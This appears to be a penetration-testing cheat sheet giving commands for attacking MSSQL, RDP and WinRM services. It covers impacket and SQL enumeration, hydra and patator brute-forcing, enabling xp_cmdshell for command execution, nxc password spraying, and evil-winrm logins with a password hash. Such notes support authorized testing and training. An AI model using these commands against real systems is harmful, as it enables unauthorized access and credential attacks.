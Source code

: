 ### MSSQL - 1433

!!! tip
    🍪 Don't forget the `-windows-auth` param

```shell
# sql auth
impacket-mssqlclient <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>
# NTLM or Kerberos auth
impacket-mssqlclient <DOMAIN>/<USERNAME>:<PASSWORD>@<IP> -windows-auth

# commands
# show all databases
SELECT name FROM sys.databases;
# switch database
USE <database_name>;
# show all tables in current database
SELECT name FROM sys.tables;
# or for all tables (including system tables):
SELECT * FROM information_schema.tables;
# show all columns in a table
SELECT COLUMN_NAME, DATA_TYPE FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = '<table_name>';
# select data from a table
SELECT * FROM <table_name>;

# bruteforce
hydra mssql://<ip> -L <userlist> -P <wordlist>
patator mssql_login host=<ip> user=sa password=FILE0 0=<wordlist> -x ignore:fgrep='Login failed for user'

# run commands
enable_xp_cmdshell
xp_cmdshell <cmd>
```

### RDP - 3389

```shell
nxc rdp <ip> -u <user> -p <pass>

# bruteforce
hydra rdp://<ip> -L <userlist> -P <wordlist>
patator rdp_login host=<ip> user='administrator' password=FILE0 0=<wordlist>
```

### WinRM - 5985, 5986 (TLS)

```shell
nxc winrm <ip> -d <domain> -u userlist -p passwordlist
nxc winrm <ip> -d <domain> -u userlist -p passwordlist -x "whoami"

# if the user belongs to the remote management group or has admin privileges
evil-winrm -i <ip>/<domain> -u <user> -p <pass>
evil-winrm -i <ip>/<domain> -u <user> -H <hash> 
```
